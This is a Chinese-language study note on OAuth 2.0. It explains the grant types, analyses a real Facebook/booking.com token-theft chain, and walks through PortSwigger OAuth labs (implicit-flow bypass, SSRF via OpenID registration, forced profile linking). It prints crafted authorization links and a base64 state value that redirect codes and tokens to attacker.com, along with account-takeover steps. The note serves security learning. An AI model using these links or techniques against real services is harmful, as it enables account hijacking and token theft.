### OAuth2.0的介绍

介绍：OAuth 2.0 是一套关于授权的行业标准协议。OAuth 2.0 **允许用户授权第三方应用访问他们在另一个服务提供方上的数据**，而无需分享他们的凭据（如用户名、密码）。

OAuth2.0定义了多种授权方式（grant types），每种方式适用于不同的应用场景和安全需求。以下是OAuth2.0中常见的几种授权方式：

1. 授权码模式
2. 隐式授权模式
3. 密码模式
4. 客户端凭证模式
5. 刷新令牌

#### 隐式授权



1. 在Randomsite.com选择使用Facebook登录
2. Randomsite.com 将打开Facebook的新窗口。
3. 如果这是您第一次使用 Randomsite.com，Facebook 会要求您给予许可。否则，Facebook 将自动对您进行身份验证。

​                           

4. 点击“继续以约翰身份”后，脸书将生成一个秘密令牌。此令牌对 Randomsite.com 是私有的，并与您的 Facebook 个人资料相关联。
5. Facebook使用此令牌将您重定向回 Randomsite.com。
6. Randomsite.com 使用该令牌直接与Facebook交谈以获取您的电子邮件地址。
7. Facebook批准这确实 john@gmail.com，Randomsite.com 可以登录他。



* 在步骤 2-3 中：约翰点击Facebook登录后，Randomsite.com 会打开一个新窗口，指向以下地址：https://www.facebook.com/v3.0/dialog/oauth？redirect_uri=https：//randomsite.com/OAuth&scope=email&client_id=1501&state=[random_value]&response_type=token.请注意redirect_uri参数 - 它告诉Facebook在步骤4-5中将令牌发送到何处。

* 在步骤 4-5 中：Facebook为 Randomsite.com 准备了一个秘密令牌（client_id参数告诉Facebook请求来自 randomsite.com），并将您的浏览器重定向回redirect_uri。确切的重定向：https://randomsite.com/OAuth#token=[secret_token]]&state=[Random_Value]

* 在步骤 6-7 中：Randomsite.com 从URL读取令牌，并使用以下API使用它直接与Facebook通信：https://graph.facebook.com/me?fields=id,name,email&access_token=[secret_token]。响应是 john@gmail.com。

#### 授权码模式

* 授权码模式和隐式授权非常类似，唯一不同的是，隐式模式下，Randomsite.com直接将第五步中获取的token作为与访问facebook资源的凭证，而在授权码模式下，Randomsite.com需要将token向facebook兑换为访问令牌，之后Randomsite.com再使用访问令牌访问facebook的资源
* 为什么授权码模式的安全性更高？GPT和许多博客给出的回答：

> 授权码模式更安全，因为令牌交换发生在服务器端。隐式授权模式由于令牌在浏览器中传输，安全性较低。

​    在设计上，授权码模式的token或者code是一次性，即使，code被泄露或窃取，它们也几乎不可能被利用，除非它们是被截获的（后文例子）。

#### 其他模式的简介

* 密码模式：和一般的密码登录类似，只不过校验账户密码的不是客户访问的站点A，而是一个认证服务器B，一般来说，站带A和认证服务器同属同一公司或组织



* 客户端凭证模式：客户端模式主要用于没有用户参与的后端服务，如开放API的场景



* 刷新令牌模式：将长期有效的令牌分为了类似jwt中常用的长令牌和短令牌

### 一个真实的OAuth2.0漏洞

这是一个授权码模式的例子



与前面OAuth介绍中的隐式授权相对比，多了授权码模式的步骤6-7，步骤6-7使用Facebook API将代码与令牌交换：



#### 缺陷一——可控的重定向路径

当用户在Randomsite.com点击使用Facebook登录时，链接指向：`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/social/result/facebook&scope=email&client_id=210068525731476&state=[large_object]&response_type=code`

其中`https://www.facebook.com/v3.0/dialog/oauth`是Facebook认证的界面，而redirect=参数则是认证后跳转回的url。

redirect=参数中，域名往往是被严格控制的，这很好理解，为了防止url跳转漏洞，Facebook可能会对请求`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/social/result/facebook&scope=email&client_id=210068525731476&state=[large_object]&response_type=code`时的referer进行校验，或者更为严格的是，redirect要跳转的域名与client_id做一个绑定，client_id都是在Facebook注册过的合法、安全的站点。

但是`redirect=https://domian.com/path/`的路径可能是不做严格限制的，所以我们可以将链接修改为`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/any/path/attacker/wants&scope=email&client_id=210068525731476&state=[large_object]&response_type=code`,这一修改会导致，我们在`www.facebook.com`允许登录后，跳转到`https://account.booking.com/any/path/attacker/wants?code=`下，**跳转的站点不可控，但是路径可控，而且携带着我们可能感兴趣的code参数**

#### 缺陷二——开放重定向漏洞（url跳转漏洞）

在Randomsite.com的站内，发现了一处url跳转漏洞，即`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback?response_type=code&state=eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9`，该链接会将用户重定向到`https://account.booking.com/mysettings/personal`，这是因为参数state的缘故，state是base64编码的字符串，解码后为

```json
{"mysettings_path":"/mysettings/personal","aid":"123"}
```

所以，我们可以构造state参数`eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ`

```json
{"mysettings_path":"https://attacker.com/index.php","aid":"123"}
```

#### 结合缺陷一二获取code

我们构造如下链接发送给受害者`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&scope=email&response_type=code&client_id=210068525731476`

注意我们如何利用了缺陷一二，一我们更改了通过Facebook认证后的跳转路径，将安全路径`/social/result/facebook`替换为了存在url跳转漏洞的`/oauth2/authorize`，我们再利用url跳转漏洞，将参数state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMif指向攻击者所控制的恶意链接。

理想的攻击情景是，用户点击我们发送的恶意链接，进入Facebook的授权登录界面，用户授权后，url中携带攻击者感兴趣的code跳转到存在url跳转漏洞的`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&code=666666`，紧接着又因为url跳转漏洞跳转到了state所指向的恶意站点。

这里有一个小trick，重定向一般不会携带查询参数（具体得看后端实现），所以我们链接中的&code=666666可能不会被携带向`https://attacker.com/index.php`发起请求，如何解决这个问题呢？关键在于facebook授权登录url中的参数`response_type=`，将其由`response_type=code`更改为`response_type=code, token`，这会使得Facebook不通过参数发送code，而是通过一个标识片段传递，即`https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ#code=[secret_code]&access_token=[token]`,url重定向时会携带这个片段标识符

所以，我们更改最初的链接为`https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code, token;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&scope=email&response_type=code&client_id=210068525731476`，用户点击后，最终跳转到如下请求`https://attacker.com/index.php#code=[secret_code]&access_token=[token]`，攻击者就拦截窃取了code

#### 对于code的利用

* 向受害者发送刚刚构造的链接
* 受害者点击链接，攻击者窃取code


* 攻击者尝试登录，并拦截步骤五中的报文，将自己的code替换为窃取的code
* 攻击者使用受害者的code登陆成功

上面的步骤是理想情况，事实上，在这个真实存在的漏洞中，这个方法是不可行的，这是因为Facebook提供的api做了限制，在第六步中，Randomsite.com向Facebook发起了如下请求：



这个请求要求redirect_uri保持和启动OAuth登录过程时的原始参数一致，也就是说第五步中的url?code=666666，url必须和获取code=666666的redirect_url一致，在前面的例子中，即是`redirect_uri=https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code, token;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ`，但是这是不可能做到的，因为攻击者也必须通过`/social/result/facebook`登录

#### 结合新的漏洞

在Randomsite.com的移动APP上发现了一个漏洞：



这个请求可以看做代替了步骤五，但是多此一举的是，向Facebook请求访问令牌时，参数redirect_uri不是从步骤五的请求url获取，而是从post body中的参数resultUri获取，这就意味着攻击者可以改变resultUri使得redirect_uri与窃取到的code相匹配。

### PortSwigger靶场

#### Authentication bypass via OAuth implicit flow

##### 登录过程的分析

* 这是首次登录时的相关数据包



* 有几个需要注意的数据包

由需要登录站点向认证服务器跨域发起的请求，此时用户还没有在认证服务器上允许登录，**此时的设置的cookie理应没有认证功能**



在认证服务器上登录，但是没有设置其他cookie，**此时唯一的cookie应该被赋予了认证功能**



又定位到了认证服务器上的另一个url，并设置了新的cookie



现在准备重定向回使用OAuth登录的站点了，重定向的url中携带了认证的token



OAuth登录站点的前端使用获得的token向认证服务器发起请求，获取资源




总结，上面这个过程我感觉并不是严格的隐式授权，在OAuth登录的站点获取到token后，其没有在后端请求认证服务器的资源，而是在前端进行的请求。

* 这是已经在认证服务器登录过后，再次使用OAuth登录的数据包，缺少了用户在认证服务器上账户密码登录的过程



这个数据包上面也出现过，经过实验，此时的两个cookie都可以单独通过认证服务器的鉴权，从而获取token









##### 寻找漏洞进行攻击

由于不是标准的隐式授权，整个流程中可疑的点很多，但我们先直奔本靶场的标准解法。前面对于登录过程的分析，我没有给出OAuth登录站点获取token和认证服务器的资源后，如何在本站登录的过程，现在给出：





可以看到，OAuth登录站点先使用获取到的token向认证服务器获取用户名、邮箱等信息，这说明token是与某一账户绑定的，那么后续等路接口/authenticate为什么在请求包中携带上用户名和邮箱呢，此时存在一种可能，登录接口没有做token与其绑定账户的校验，尝试更改email和username为其他用户，使用该token登录，成功登录其他用户



##### 思路拓展：这个过程存在其他问题吗

###### 认证过程中的跨域

* 认证过程中存在频繁的跨域操作，注意到获取token的数据包是跨域访问，如果其配置了CORS且配置不当，那我们就可以窃取token。但是很遗憾，该接口没有配置CORS



* 跨域请求认证服务器的资源，可以看到CORS配置确实存在一定问题，但可惜的是该接口并非使用cookie鉴权，无法利用





###### 其他尝试

* 伪造链接发送给受害者，经过试验，不可行



#### Lab: SSRF via OpenID dynamic client registration

##### 介绍一下OpenID

允许第三方应用程序在资源所有者的许可下访问资源服务器上的资源。OAuth 2.0本质上是一个授权协议，而不是身份认证协议。

OIDC（OpenID Connect）OIDC在OAuth 2.0的基础上增加了身份认证功能。它通过引入ID令牌（ID Token）和用户信息端点（UserInfo Endpoint），使客户端可以验证用户身份并获取用户信息。

OIDC的主要组件：

* ID Token：是一个JSON Web Token（JWT），包含关于身份提供者（Identity Provider, IdP）验证的用户身份的信息。包含用户标识（如`sub`），认证时间（`auth_time`），认证方法（`acr`）等。
* UserInfo Endpoint：一个保护的资源端点，用于返回有关用户的附加信息，如姓名、电子邮件地址等。客户端使用访问令牌（Access Token）来请求用户信息。
* Authorization Endpoint：用于获取授权码（Authorization Code）的端点。客户端引导用户到该端点进行身份验证和授权。
* Token Endpoint：用于交换授权码或刷新令牌以获取访问令牌和ID令牌的端点。

流程概述：这就是我们之前OAuth认证的流程，只不过这里用一些更加专业的名词

1. **用户认证**

   - 客户端将用户引导到身份提供者的授权端点。
   - 用户在授权端点登录并同意授权请求。

   ```txt
   GET /authorize?
     response_type=code&
     client_id=CLIENT_ID&
     redirect_uri=REDIRECT_URI&
     scope=openid profile email&
     state=STATE&
     nonce=NONCE
   ```

   

2. **获取授权码**

   - 身份提供者将用户重定向回客户端，并附带授权码。

   ```txt
   HTTP/1.1 302 Found
   Location: REDIRECT_URI?code=AUTHORIZATION_CODE&state=STATE
   ```

   

3. **交换令牌**

   - 客户端向身份提供者的令牌端点发送请求，交换授权码以获取访问令牌和ID令牌。

   ```txt
   POST /token
   Content-Type: application/x-www-form-urlencoded
   
   grant_type=authorization_code&
   code=AUTHORIZATION_CODE&
   redirect_uri=REDIRECT_URI&
   client_id=CLIENT_ID&
   client_secret=CLIENT_SECRET
   ```

   ```txt
   {
     "access_token": "ACCESS_TOKEN",
     "id_token": "ID_TOKEN",
     "token_type": "Bearer",
     "expires_in": 3600
   }
   ```

   

4. **验证ID令牌**

   - 客户端验证ID令牌的签名和内容，以确保其合法性和有效性。

   ```txt
   GET /userinfo
   Authorization: Bearer ACCESS_TOKEN
   ```

   

5. **获取用户信息**

   - 客户端可以使用访问令牌请求用户信息端点，以获取更多用户信息。

   ```txt
   {
     "sub": "USER_ID",
     "name": "John Doe",
     "email": "john.doe@example.com"
   }
   ```

   不难看出，OIDC的使用需要OAuth使用者和提供者的配合，特别是一些端点的协商，所以OAuth使用者必须在提供者一侧进行注册。

##### 注册Open ID

如果支持动态客户端注册，则客户端应用程序可以向专用/registration端点发送POST请求，通常配置文件和文档中会提供该端点的名称，在请求正文中，客户端应用程序以JSON格式提交有关自身的关键信息，如经常需要包括列入白名单的重定向URI的数组，还可以提交一系列其他信息，如要公开的端点的名称，应用程序的名称等，burp给出了一个示例

/.well-known/openid-configuration这是一个标准端点，访问它可以看到OAuth使用者的OIDC相关信息。

访问`https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration`可以看到一些端点信息，注意到registration_endpoint



一般来说，一个客户端想认证服务器注册OpenID都需要一定的身份验证，验证该客户端的合法性，但是有一些认证服务器允许动态客户端注册而无需任何身份验证。这样一来，攻击者就可以注册自己的恶意客户端应用程序，里面有些属性可以当做URI来控制，可能导致SSRF等一些安全风险的产生。

##### 寻找漏洞进行攻击

梳理登录过程，有两个数据包值得注意，这里向认证服务器发起了请求，响应包中有一个login-client-image，由名词和其指向的链接可知，这是注册OAuth的客户端对应的logo



随后继续向认证服务器请求这个logo，其直接返回了svg图片，客户端的logo为什么可以向认证服务器请求得到呢，很显然客户端在认证服务器注册的时候，要么上传了这个logo，要么提供了url，如果是后者，那就存在SSRF的风险



我们尝试注册一个客户端



向认证服务器与客户端logo对应的path发起请求





证明确实存在SSRF。再重新注册，修改path为题给恶意路径



向认证服务器与客户端logo对应的path发起请求，响应包中包含授权服务器的一些敏感信息，ssrf攻击完成



#### Lab: Forced OAuth profile linking

##### 分析登录的过程



整个流程大概可以分为三部分：

1. 在用户网站登录
2. 在认证服务器登录
3. 从认证服务器携带code重定向到用户网站，由于用户已经在用户网站登录，该用户与code也就是认证服务器的账户进行绑定

而且注意到第三步仅仅使用一个数据包完成，唯一的参数就是和认证服务器账户相关联的code



此时，如果code相关的认证服务器账户是攻击者的账户，就可以实现将用户账户绑定到攻击者的认证账户，攻击者也就盗取了目标账户。查看该站点的cookie设置，发现可以进行csrf。



在my account页面attach a social profile时拦截相应数据包，因为code只生效一次，我们获取到code后将这个数据包丢弃





在exploit server上构造payload，deliver exploit to victim，绑定管理员到攻击者的认证服务器账号



攻击者登录账号，删除carlos，完成靶场



#### Lab: OAuth account hijacking via redirect_uri
